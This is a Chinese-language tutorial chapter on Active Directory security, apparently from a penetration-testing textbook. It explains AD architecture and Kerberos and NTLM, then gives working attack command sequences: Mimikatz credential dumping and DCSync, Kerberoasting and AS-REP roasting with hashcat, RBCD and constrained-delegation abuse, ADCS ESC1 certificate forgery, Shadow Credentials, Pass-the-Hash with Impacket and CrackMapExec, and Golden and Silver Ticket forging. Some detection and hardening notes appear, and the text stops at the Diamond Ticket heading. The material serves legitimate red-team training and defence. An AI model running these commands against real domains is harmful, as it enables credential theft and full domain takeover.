


## 四、Active Directory安全

Active Directory（AD）是Windows企业网络的中枢神经系统。全球超过95%的财富5000强企业依赖AD管理身份认证、资源授权和策略分发。理解AD的安全机制——无论是从防御还是攻击视角——是渗透测试和红队行动的核心能力。本章从架构原理出发，逐层深入认证机制、攻击技术、持久化手段和防御加固，构建完整的AD安全知识体系。

### 4.1 Active Directory架构

#### 4.1.1 逻辑结构层次

AD采用分层逻辑结构，从大到小依次为：**林（Forest）→ 域树（Tree）→ 域（Domain）→ 组织单位（OU）**。每一层都有独立的安全边界和管理职责。

**林（Forest）** 是AD的最顶层容器。一个林包含一个或多个域树，共享同一个Schema（架构定义）和Configuration（配置分区）。林是安全边界——林内的所有域默认互相信任。**攻击者如果获得林中任意域的Domain Admin权限，可以通过跨域信任关系逐步攻陷整个林。**

**域树（Tree）** 是共享连续命名空间的域的层次结构。例如 `corp.example.com` 是父域，`dev.corp.example.com` 是子域。域树之间通过双向可传递信任关系连接。子域的管理员可以在父域中被授予权限，这形成了一个常见的攻击路径。

**域（Domain）** 是AD的基本管理单元。每个域维护自己的数据库副本（NTDS.dit）、安全策略和管理员组。域是安全认证的边界——域管理员默认不能管理其他域，除非存在信任关系。

**组织单位（OU）** 是域内的逻辑容器，用于组织用户、计算机、组等对象。OU是应用组策略（GPO）的最小单元，也是委派管理权限的常见粒度。**OU不是安全边界**——域管理员可以访问域内所有OU中的对象。

```text
林 (Forest)
├── 域树A: example.com
│   ├── 子域: dev.example.com
│   └── 子域: hr.example.com
├── 域树B: partner.net
│   └── 子域: eu.partner.net
└── 共享: Schema + Configuration + Global Catalog
```

#### 4.1.2 核心组件详解

**域控制器（Domain Controller，DC）** 是运行AD域服务的服务器。DC承担三个核心职能：存储AD数据库（NTDS.dit）、处理Kerberos和NTLM认证请求、在多DC环境之间复制目录数据。每个域至少有一台DC，生产环境通常部署2-4台以实现高可用。**获得任意一台DC的完全控制权等同于获得整个域的控制权。**

**全局编录（Global Catalog，GC）** 是一个只读的、部分属性的目录副本。GC存储林中所有域的对象的常用属性子集（如用户名、邮箱、组成员关系），用于跨域搜索和用户登录（UPN解析）。GC默认在林中第一台DC上启用，通常在每个站点部署一台GC服务器。

**FSMO角色**（灵活单主操作）是五个必须由单一DC承担的特殊角色：

| 角色 | 作用域 | 职责 | 被攻陷的后果 |
|------|--------|------|-------------|
| Schema Master | 林级 | 管理AD架构定义 | 攻击者可修改整个林的对象属性定义 |
| Domain Naming Master | 林级 | 管理域的添加/删除 | 攻击者可添加恶意域到林中 |
| PDC Emulator | 域级 | 主时间源、密码更改首选、GPO编辑 | 攻击者可劫持密码策略和时间同步 |
| RID Master | 域级 | 分配相对标识符（RID）池 | 攻击者可构造特定SID的对象 |
| Infrastructure Master | 域级 | 更新跨域对象引用 | 影响跨域组成员解析 |

**FSMO角色夺取**是高级持久化技术之一：攻击者通过 `ntdsutil` 或PowerShell夺取PDC Emulator角色后，可以修改域密码策略（如降低密码复杂度要求），或通过RID Master注入高权限SID。

#### 4.1.3 NTDS.dit数据库

`NTDS.dit` 是AD的核心数据库文件，基于ESE（Extensible Storage Engine）引擎，存储在 `%SystemRoot%\NTDS\ntds.dit`。它包含：

- **所有域对象**：用户、计算机、组、GPO、信任关系等
- **密码哈希**：NTLM哈希和Kerberos密钥（AES256、AES128、RC4）
- **SID历史**：用于跨域迁移的旧SID记录
- **组成员关系**：通过链接表记录

数据库内部由三类表组成：**数据表**（存放对象属性）、**链接表**（存放组成员和DN引用等前向/后向链接）、**索引表**（加速LDAP查询）。攻击者提取NTDS.dit的方式包括：通过Volume Shadow Copy获取在线副本、使用 `ntdsutil` 导出、或通过DCSync攻击模拟域控制器复制协议直接获取凭据。

**SYSVOL** 是域内所有DC共享的文件夹（默认路径 `\\<domain>\SYSVOL`），存储GPO配置文件和登录脚本。SYSVOL通过FRS或DFSR在DC之间复制。**SYSVOL中的敏感信息泄露是AD环境中最常见的安全问题之一**——管理员有时会将密码、脚本硬编码的凭据存放在SYSVOL中，域内任何认证用户都可以读取。

```powershell
# 查找SYSVOL中的敏感信息
# 搜索包含"password"的脚本文件
findstr /S /I /C:"password" \\dc.example.com\SYSVOL\example.com\*.xml
findstr /S /I /C:"password" \\dc.example.com\SYSVOL\example.com\*.vbs
findstr /S /I /C:"password" \\dc.example.com\SYSVOL\example.com\*.bat

# 使用PowerShell搜索cpassword（GPP密码）
findstr /S /I "cpassword" \\dc.example.com\SYSVOL\example.com\*.xml
```

**GPP（Group Policy Preferences）密码** 是一个经典漏洞（MS14-025）。GPP允许管理员通过组策略推送本地管理员密码、计划任务凭据等，密码使用AES-256加密存储在XML文件中。但微软后来公开了AES密钥，使得任何域用户都可以解密这些密码。虽然微软已发布补丁禁用此功能，但许多旧环境中仍存在历史遗留的GPP密码。

### 4.2 AD认证机制

#### 4.2.1 Kerberos协议深度解析

Kerberos是AD的默认认证协议，基于票据（Ticket）机制，采用对称加密和可信第三方模型。理解Kerberos的每一步是掌握AD攻击的基础。

**完整认证流程**：



**关键票据与密钥**：

- **krbtgt账户**：KDC的服务账户，其NTLM哈希用于加密和签名TGT。**获得krbtgt哈希可以伪造任意用户的TGT（Golden Ticket攻击）**。
- **TGT（Ticket Granting Ticket）**：证明用户身份的票据，有效期默认10小时，可续期7天。TGT使用krbtgt的密钥加密，客户端无法读取其内容。
- **TGS（Ticket Granting Service Ticket）**：也称服务票据（Service Ticket），用于访问特定服务。TGS使用目标服务账户的密钥加密。
- **Session Key**：KDC生成的临时对称密钥，用于客户端和服务之间的加密通信。

**Kerberos预认证机制**：默认情况下，用户发送AS-REQ时必须附带用自己密钥加密的时间戳，KDC验证通过后才返回TGT。这防止了离线字典攻击。但如果管理员禁用了某用户的预认证（`DONT_REQ_PREAUTH`标志），攻击者可以直接向KDC请求该用户的AS-REP，然后离线破解——这就是**AS-REP Roasting**攻击的原理。

#### 4.2.2 Kerberos扩展：S4U2Self与S4U2Proxy

Windows Server 2003引入了Kerberos的S4U扩展，允许服务代表用户请求票据，这在约束委派（Constrained Delegation）中使用：

- **S4U2Self**：服务可以代表用户向KDC请求一张以自身为目标的服务票据（无需用户的TGT）。这意味着服务可以在没有用户参与的情况下获取"模拟用户"的能力。
- **S4U2Proxy**：服务可以使用S4U2Self获取的票据，代表用户请求访问后端服务的票据。这允许前端服务"委派"用户身份访问后端服务。

**攻击意义**：如果一个服务账户被配置了约束委派，攻击者获得该账户的凭据后，可以代表任意用户（包括Domain Admins）请求访问被委派的服务的票据。**配置了约束委派的服务账户等于拥有对目标服务的模拟任意用户的能力。**

#### 4.2.3 NTLM认证协议

NTLM（NT LAN Manager）是Windows的旧版认证协议，虽然Kerberos是默认协议，但NTLM在以下场景中仍被广泛使用：工作组环境、IP地址访问（无SPN）、旧版应用兼容、跨域非信任场景。

**NTLMv2认证流程**：

1. **协商**：客户端发送Type 1消息（支持的NTLM版本和标志）
2. **挑战**：服务端返回Type 2消息（8字节随机Challenge）
3. **响应**：客户端使用密码哈希对Challenge加密，发送Type 3消息（NTLM Response + 用户名 + 域名）

NTLM Response的计算基于用户密码的NTLM哈希，包含客户端Challenge和时间戳。**NTLM哈希是等效凭据——获得哈希即可通过Pass-the-Hash直接认证，无需破解密码。**

**NTLM中继攻击** 是NTLM协议最严重的安全缺陷：攻击者截获目标对恶意服务器发起的NTLM认证请求，将Type 3响应转发给真实目标服务，从而以目标用户身份获得访问权限。攻击链如下：



**防御NTLM中继**的措施包括：强制SMB签名（`RequireSecuritySignature=1`）、启用LDAP签名和通道绑定、使用EPA（Extended Protection for Authentication）、禁用NTLM（如果业务允许）。

#### 4.2.4 NTLM与Kerberos的攻击面差异

| 维度 | NTLM | Kerberos |
|------|------|----------|
| 哈希类型 | NTLM Hash (MD4) | AES256/AES128/RC4密钥 |
| 离线破解 | 可通过Pass-the-Hash直接使用 | 需获取服务票据后离线破解 |
| 中继攻击 | 容易中继（无签名保护） | 难以中继（时间戳+Session Key） |
| 黄金票据等效 | 不适用（无票据机制） | Golden Ticket（伪造TGT） |
| 服务票据攻击 | 不适用 | Kerberoasting（离线破解服务票据） |
| 客户端可禁用 | 组策略禁用NTLM | 始终作为默认协议 |

### 4.3 AD枚举与侦察

#### 4.3.1 枚举的层次与目标

AD枚举是攻击的第一步。从任何普通域用户权限出发，就可以获取大量信息——因为AD的设计哲学是"默认允许读取"。枚举分为三个层次：

- **基础枚举**：域用户列表、计算机列表、组成员关系、OU结构
- **高级枚举**：ACL权限配置、GPO链接、信任关系、SPN列表、委派配置
- **路径分析**：利用BloodHound等工具发现最短攻击路径

#### 4.3.2 枚举工具与技术

**BloodHound** 是AD攻击路径分析的事实标准工具。它通过SharpHound收集器采集AD数据，使用图数据库（Neo4j）建模，计算从任意起点到Domain Admin的最短攻击路径。

```powershell
# SharpHound收集（需要域用户权限）
# 收集所有数据类型：用户、组、会话、ACL、GPO、信任关系
Invoke-BloodHound -CollectionMethod All -Domain target.local -OutputDirectory C:\Temp

# 仅收集会话信息（更隐蔽）
Invoke-BloodHound -CollectionMethod Session -Loop -LoopDuration 02:00:00

# 使用Python版（Linux环境）
bloodhound-python -u user -p password -d target.local -dc dc.target.local -c All
```

**PowerView / PowerView-Dev** 是AD枚举的PowerShell工具集：

```powershell
# 基础域信息
Get-Domain                          # 获取域基本信息
Get-DomainController                # 列出所有域控制器
Get-DomainSID                       # 获取域SID

# 用户和组枚举
Get-DomainUser -Identity jsmith     # 查询特定用户属性
Get-DomainUser -AdminCount          # 查找标记为管理员的账户
Get-DomainUser -SPN                 # 查找有SPN的账户（Kerberoasting目标）
Get-DomainUser -UACFilter DONT_REQ_PREAUTH  # AS-REP Roasting目标
Get-DomainGroup -Identity "Domain Admins" | Get-DomainGroupMember  # DA组成员

# 计算机枚举
Get-DomainComputer -OperatingSystem "*Server*"  # 查找服务器
Get-DomainComputer -Unconstrained  # 无约束委派的计算机
Get-DomainComputer -TrustedToAuth  # 约束委派的计算机

# ACL分析
Find-InterestingDomainAcl -ResolveGUIDs  # 查找危险ACL配置
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match "GenericAll|WriteDacl|WriteOwner"}

# 信任关系
Get-DomainTrust -Domain target.local  # 域信任关系
Get-ForestTrust                        # 林信任关系
```

**ADFind / ADSearch** 是轻量级LDAP查询工具，适合在限制PowerShell执行的环境中使用：

```cmd
# ADFind枚举
adfind -f "(objectCategory=person)" -dn         # 所有用户
adfind -f "(&(objectCategory=computer)(operatingSystem=*server*))" -dn  # 服务器
adfind -f "(servicePrincipalName=*)" -dn         # SPN账户
adfind -f "(msDS-AllowedToDelegateTo=*)" -dn     # 约束委派
adfind -f "(&(objectCategory=person)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"  # 不要求预认证
```

### 4.4 AD凭据攻击技术

#### 4.4.1 Mimikatz凭据提取

Mimikatz是AD攻击的"瑞士军刀"，由Benjamin Delpy开发。它可以直接从LSASS（Local Security Authority Subsystem Service）进程中提取明文密码、NTLM哈希和Kerberos票据。

```powershell
# 提取内存中的凭据（需要SYSTEM或调试权限）
privilege::debug                          # 启用调试权限
sekurlsa::logonpasswords                  # 提取当前登录用户的明文密码和哈希
sekurlsa::tickets                         # 提取所有Kerberos票据
sekurlsa::pth /user:Admin /domain:corp /ntlm:HASH  # Pass-the-Hash

# 提取SAM数据库（本地账户凭据）
token::elevate                            # 提升到SYSTEM权限
lsadump::sam                              # 导出本地SAM数据库
lsadump::secrets                          # 导出LSA Secrets

# DCSync攻击（无需访问DC文件系统）
lsadump::dcsync /domain:target.local /user:krbtgt    # 提取krbtgt哈希（Golden Ticket前提）
lsadump::dcsync /domain:target.local /user:Administrator  # 提取管理员哈希
lsadump::dcsync /domain:target.local /all /csv       # 提取所有用户的哈希
```

**Mimikatz的防御规避**：直接运行mimikatz.exe在现代EDR环境下几乎必然被检测。红队常用的方式包括：反射式DLL注入（将mimikatz.dll加载到内存中）、将功能编译为独立的.NET程序（如Rubeus、SafetyKatz）、使用更隐蔽的替代工具如 `sekurlsa::minidump` 分析离线LSASS dump。

#### 4.4.2 DCSync攻击原理

DCSync是Mimikatz的一个模块，它模拟域控制器之间的目录复制协议（DRS，Directory Replication Services）。正常情况下，多DC环境通过DRS协议同步AD数据库变更，包括用户密码哈希。**任何拥有"目录复制（Replicating Directory Changes All）"权限的账户都可以请求复制任意用户的凭据数据。**

默认情况下，Domain Admins、Enterprise Admins和域控制器机器账户拥有此权限。攻击流程：

1. 使用PowerView或BloodHound发现拥有复制权限的账户
2. 用该账户执行DCSync，指定目标用户
3. KDC返回目标用户的NTLM哈希和Kerberos密钥
4. 使用提取的哈希进行Pass-the-Hash或伪造票据

```powershell
# 使用Impacket的secretsdump（Python，远程执行）
secretsdump.py target.local/Administrator:Password@dc.target.local
secretsdump.py -just-dc-krbtgt target.local/Administrator:Password@dc.target.local

# 使用Invoke-DCSync（PowerShell，无Mimikatz依赖）
Invoke-DCSync -UserFilter "*" | Select-Object AccountName, NTHash, LMHash
```

**DCSync的关键检测信号**：正常环境中，只有DC之间会发起DRS复制请求。如果非DC主机发起了 `DsGetNCChanges` RPC调用，应触发高优先级告警。监控事件ID 4662（目录服务访问）中 `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`（DS-Replication-Get-Changes-All）属性的访问。

#### 4.4.3 Kerberoasting攻击

Kerberoasting利用Kerberos协议的一个设计特性：**任何认证用户都可以请求任意SPN（Service Principal Name）的服务票据**，而服务票据使用目标服务账户的NTLM哈希加密。攻击者获取票据后可以离线破解，无需与目标服务交互。

```powershell
# 使用Rubeus（.NET实现，更隐蔽）
# 请求所有SPN的服务票据
Rubeus.exe kerberoast /outfile:hashes.txt

# 仅请求RC4加密的票据（更容易破解）
Rubeus.exe kerberoast /tgtdeleg /outfile:hashes_rc4.txt

# 请求特定用户
Rubeus.exe kerberoast /user:svc_sql /outfile:hash_svc.txt

# 使用Impacket（Python）
GetUserSPNs.py target.local/user:password -dc-ip 10.10.10.1 -request
GetUserSPNs.py target.local/user:password -dc-ip 10.10.10.1 -request -outputfile hashes.txt

# 使用Hashcat破解（RC4模式为13100）
hashcat -m 13100 hashes.txt wordlist.txt -r rules/best64.rule
# AES256模式为19700
hashcat -m 19700 hashes_aes.txt wordlist.txt
```

**Kerberoasting的防御加固**：
- 服务账户密码使用25位以上随机字符
- 配置组策略强制服务票据使用AES256加密（禁用RC4）
- 使用托管服务账户（gMSA），自动轮换密码
- 审计所有拥有SPN的账户，确保没有多余的服务账户

#### 4.4.4 AS-REP Roasting攻击

对于禁用了Kerberos预认证的账户，攻击者可以直接发送AS-REQ请求TGT，KDC返回的AS-REP中包含用用户密钥加密的数据。攻击者可以离线破解这个加密数据来获得密码。

```powershell
# 查找不需要预认证的账户
Get-DomainUser -UACFilter DONT_REQ_PREAUTH | Select-Object samaccountname

# 使用Rubeus
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe asreproast /user:targetuser /outfile:asrep_hash.txt

# 使用Impacket
GetNPUsers.py target.local/ -dc-ip 10.10.10.1 -usersfile users.txt -format hashcat -outputfile asrep.txt

# Hashcat破解（模式18200）
hashcat -m 18200 asrep_hashes.txt wordlist.txt
```

#### 4.4.5 凭据攻击技术对比

| 攻击技术 | 所需权限 | 目标数据 | 隐蔽性 | 典型成功率 |
|---------|---------|---------|--------|-----------|
| Mimikatz内存提取 | SYSTEM或调试权限 | 登录会话中的明文密码和哈希 | 低（易被EDR检测） | 高（有活跃会话时） |
| DCSync | 目录复制权限（DA/EA） | 任意用户的NTLM哈希和Kerberos密钥 | 中（需监控DRS协议） | 高（只要目标用户存在） |
| Kerberoasting | 任意域用户 | 服务账户的加密票据 | 高（正常Kerberos流量） | 中（取决于密码强度） |
| AS-REP Roasting | 任意域用户 | 禁用预认证用户的加密数据 | 高（正常Kerberos流量） | 低（目标账户少） |

### 4.5 AD权限提升技术

#### 4.5.1 Kerberos委派攻击

Kerberos委派是AD中最复杂也最危险的攻击面之一。委派允许服务代表用户访问后端资源，三种委派类型的安全影响各不相同。

**无约束委派（Unconstrained Delegation）**：服务可以代表用户访问**任意**服务。当用户访问配置了无约束委派的服务时，用户的TGT会被存储在该服务的LSASS进程中。攻击者如果控制了无约束委派的服务器，可以截获所有访问该服务器的用户的TGT。

```powershell
# 发现无约束委派的计算机
Get-DomainComputer -Unconstrained | Select-Object dnshostname, useraccountcontrol

# 利用无约束委派截获TGT（Rubeus监控模式）
Rubeus.exe monitor /interval:5 /nowrap

# 通过SpoolSample触发DC访问（强制DC连接到无约束委派服务器）
SpoolSample.exe dc01.target.local uncond-srv.target.local
```

**约束委派（Constrained Delegation）**：服务只能代表用户访问指定的SPN。攻击者获取约束委派服务账户的凭据后，可以执行S4U2Self和S4U2Proxy攻击，代表任意用户请求访问被委派服务的票据。

```powershell
# 发现约束委派配置
Get-DomainUser -TrustedToAuth | Select-Object samaccountname, msDS-AllowedToDelegateTo
Get-DomainComputer -TrustedToAuth | Select-Object dnshostname, msDS-AllowedToDelegateTo

# Rubeus S4U攻击
Rubeus.exe s4u /user:svc_web /rc4:HASH /impersonateuser:Administrator /msdsspn:cifs/target-srv /ptt
```

**基于资源的约束委派（RBCD）**：Windows Server 2012引入，目标服务自行决定信任哪些账户可以代表用户访问。攻击者如果拥有对计算机对象的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的写入权限，可以将恶意账户添加为受信任的委派账户。

```powershell
# 检查RBCD配置
Get-DomainComputer target-srv -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

# 利用RBCD（需要对目标计算机对象有写权限）
# 1. 创建或使用一个机器账户（MachineAccountQuota > 0）
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount fakesrv -Password $(ConvertTo-SecureString 'your_password123' -AsPlainText -Force)

# 2. 设置RBCD
$fakesrvSID = (Get-DomainComputer fakesrv).ObjectSID
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesrvSID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Set-DomainObject target-srv -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes}

# 3. S4U攻击
Rubeus.exe s4u /user:fakesrv$ /rc4:HASH /impersonateuser:Administrator /msdsspn:cifs/target-srv /ptt
```

#### 4.5.2 AD证书服务（ADCS）攻击

AD Certificate Services（ADCS）是近年来AD攻击面中最重要的新发现。2021年安全研究员Will Schroeder和Lee Christensen公开了ADCS的8种滥用场景（ESC1-ESC8），彻底改变了AD安全评估的格局。

**ESC1**：证书模板允许请求者指定SAN（Subject Alternative Name），且模板可用于认证。攻击者可以请求一个证书，将SAN设为Domain Admin的UPN，从而获得管理员的证书。

**ESC2**：模板允许"任意目的"或"客户端认证"的EKU（Enhanced Key Usage），结合低权限用户即可请求。

**ESC3**：模板具有证书请求代理EKU，允许代理请求其他模板的证书。

**ESC4**：证书模板的ACL允许低权限用户修改模板属性，攻击者修改后可降级为ESC1/ESC2/ESC3。

**ESC6**：CA的 `EDITF_ATTRIBUTESUBJECTALTNAME2` 标志允许在任何模板中指定SAN。

**ESC7**：低权限用户拥有CA的管理权限（`ManageCA` 或 `ManageCertificates`）。

**ESC8**：CA注册了HTTP端点（Web Enrollment），支持NTLM认证。攻击者可以中继NTLM认证到CA的HTTP端点，请求任意证书。

```powershell
# 使用Certify枚举证书模板
Certify.exe find /vulnerable
Certify.exe find /enrolleeSuppliesSubject  # ESC1目标

# 使用Certipy（Python，更活跃的维护）
certipy find -u user@target.local -p 'Password' -dc-ip 10.10.10.1
certipy find -u user@target.local -p 'Password' -vulnerable

# ESC1利用：请求管理员证书
Certify.exe request /ca:dc01\CA /template:VulnTemplate /altname:administrator@target.local
certipy req -u user@target.local -p 'Password' -ca CA-NAME -template VulnTemplate -upn administrator@target.local

# 使用证书认证获取TGT
Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /ptt
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.1
```

**ADCS检测**：监控事件ID 4886（证书请求）和4887（证书颁发），特别关注 `Certificate Template` 属性为敏感模板（如 `User`、`Machine`）且 `Requester Name` 为非预期账户的请求。

#### 4.5.3 ACL滥用

AD中的每个对象都有一个ACL（Access Control List），定义了谁可以对该对象执行什么操作。**ACL配置错误是AD环境中最常见的安全弱点**。常见的高危ACL权限：

| 权限 | 目标对象 | 攻击效果 |
|------|---------|---------|
| GenericAll | 用户 | 重置密码、添加到组 |
| GenericAll | 计算机 | 配置RBCD、读取LAPS密码 |
| GenericWrite | 用户 | 修改 `scriptPath` 或 `msDS-KeyCredentialLink` |
| WriteDacl | 任意对象 | 修改ACL，授予自己完全控制 |
| WriteOwner | 任意对象 | 将所有者改为自己，再修改ACL |
| ForceChangePassword | 用户 | 强制重置用户密码（无需知道旧密码） |
| AddMember | 组 | 将自己添加到高权限组 |
| AddKeyCredentialLink | 用户/计算机 | 添加Shadow Credentials（PKINIT） |

```powershell
# BloodHound查询危险ACL路径
# Neo4j Cypher查询：找到到Domain Admin的ACL攻击路径
MATCH p=shortestPath((n:User {name:'USER@DOMAIN'})-[:Owns|WriteDacl|GenericAll|GenericWrite|WriteOwner|MemberOf*1..]->(m:Group {name:'DOMAIN ADMINS@DOMAIN'}))
RETURN p

# 使用PowerView发现高危ACL
Find-InterestingDomainAcl -ResolveGUIDs | ? {$_.IdentityReferenceName -notmatch "krbtgt|DnsAdmins"} | Select-Object ObjectDN, ActiveDirectoryRights, IdentityReferenceName
```

#### 4.5.4 Shadow Credentials与PKINIT

Shadow Credentials是一种新的AD攻击技术，利用 `msDS-KeyCredentialLink` 属性。Windows Hello for Business和Azure AD使用此属性存储公钥凭据。攻击者如果对该属性有写入权限，可以注入自己的公钥，然后使用PKINIT（公钥初始认证）协议获取TGT，完全绕过密码认证。

```powershell
# 使用Whisker（.NET工具）
Whisker.exe add /target:dc01$ /domain:target.local /dc:dc01.target.local
# 输出包含：添加的凭据的DeviceID和私钥PEM
# 使用Rubeus配合PKINIT认证
Rubeus.exe asktgt /user:dc01$ /certificate:cert.pfx /domain:target.local /ptt
```

### 4.6 AD横向移动技术

#### 4.6.1 Pass-the-Hash（PtH）

Pass-the-Hash直接使用NTLM哈希进行认证，无需破解密码明文。这利用了NTLM协议的设计——密码哈希本身等效于密码。

```powershell
# Mimikatz Pass-the-Hash
sekurlsa::pth /user:Admin /domain:target.local /ntlm:NTHASH /run:cmd.exe

# Impacket（Python远程执行）
psexec.py -hashes :NTHASH target.local/Administrator@10.10.10.1
wmiexec.py -hashes :NTHASH target.local/Administrator@10.10.10.1
smbexec.py -hashes :NTHASH target.local/Administrator@10.10.10.1
atexec.py -hashes :NTHASH target.local/Administrator@10.10.10.1 "whoami"

# CrackMapExec批量执行
crackmapexec smb 10.10.10.0/24 -u Administrator -H NTHASH --exec-method smbexec -x "whoami"
```

**Pass-the-Hash的防御**：启用Credential Guard（Windows 10 Enterprise/Windows Server 2016+），将LSASS中的凭据存储在基于VBS的安全隔离区域中；限制本地管理员组成员；在敏感系统上禁用NTLM认证。

#### 4.6.2 Pass-the-Ticket（PtT）

Pass-the-Ticket使用窃取或伪造的Kerberos票据进行认证。票据可以是TGT或服务票据。

```powershell
# 导出当前会话的票据
Rubeus.exe dump /nowrap
mimikatz # sekurlsa::tickets /export

# 注入票据到当前会话
Rubeus.exe ptt /ticket:doIFmjCCBZagAwIBBaED...  # Base64票据
mimikatz # kerberos::ptt ticket.kirbi

# 使用票据访问服务
dir \\target-srv\c$
```

#### 4.6.3 Overpass-the-Hash

Overpass-the-Hash（也称Pass-the-Key）使用NTLM哈希或AES密钥请求Kerberos TGT，然后使用TGT访问Kerberos认证的服务。这是从NTLM哈希到Kerberos票据的"升级"。

```powershell
# 使用NTLM哈希请求TGT
Rubeus.exe asktgt /user:admin /rc4:NTHASH /ptt
# 使用AES256密钥请求TGT
Rubeus.exe asktgt /user:admin /aes256:AESKEY /ptt
```

### 4.7 AD持久化技术

#### 4.7.1 Golden Ticket（黄金票据）

Golden Ticket通过伪造TGT实现持久化。攻击者使用krbtgt账户的NTLM哈希，构造一个任意用户的TGT，有效期可以设为任意长度（默认10年），且不受密码重置影响（除非krbtgt密码被重置两次）。

```powershell
# 使用Mimikatz创建Golden Ticket
mimikatz # kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21-XXXX /krbtgt:NTHASH /ptt

# 使用Rubeus创建Golden Ticket
Rubeus.exe golden /rc4:KRBTGT_HASH /user:Administrator /domain:target.local /sid:S-1-5-21-XXXX /ptt

# 使用Impacket（远程）
ticketer.py -nthash KRBTGT_HASH -domain-sid S-1-5-21-XXXX -domain target.local Administrator
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass target.local/Administrator@dc01.target.local
```

**Golden Ticket的持久性**：Golden Ticket的有效期和内容完全由攻击者控制。即使目标用户的密码被重置，Golden Ticket仍然有效，因为TGT是用krbtgt的密钥签发的。**唯一的恢复方法是重置krbtgt密码两次**（因为AD保留前一个krbtgt密码用于验证未过期的票据）。

#### 4.7.2 Silver Ticket（白银票据）

Silver Ticket伪造特定服务的TGS票据。相比Golden Ticket，Silver Ticket的范围更小（仅限单个服务），但更隐蔽——因为不需要与KDC通信。

```powershell
# 创建CIFS服务的Silver Ticket
mimikatz # kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21-XXXX /target:dc01.target.local /service:cifs /rc4:HASH /ptt

# Silver Ticket用于WMI远程执行
mimikatz # kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21-XXXX /target:dc01.target.local /service:HOST /rc4:HASH /ptt
mimikatz # kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21-XXXX /target:dc01.target.local /service:RPCSS /rc4:HASH /ptt
```

#### 4.7.3 Diamond Ticket

